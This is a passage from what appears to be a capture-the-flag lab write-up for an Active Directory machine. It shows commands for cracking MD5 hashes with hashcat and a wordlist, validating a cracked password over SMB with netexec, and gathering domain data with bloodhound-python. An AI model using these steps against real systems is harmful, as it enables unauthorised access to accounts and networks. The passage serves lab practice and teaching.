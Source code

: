 and we got the passwords so let’s try to crack them

```bash
hashcat -m 0 crackme.txt /usr/share/wordlists/rockyou.txt
```

![image.png](../images/trusted%209.png)

> Notice that we got a password
> 

now let’s try to validate the password we have

```bash
nxc smb lab.trusted.vl -u 'rsmith' -p 'IHateEric2'
```

![image.png](../images/trusted%2010.png)

and it worked so let’s go and get bloodhound

```bash
bloodhound-python -ns 10.10.204.86 -d lab.trusted.vl -u rsmith -p IHateEric2 -c all --zip
```
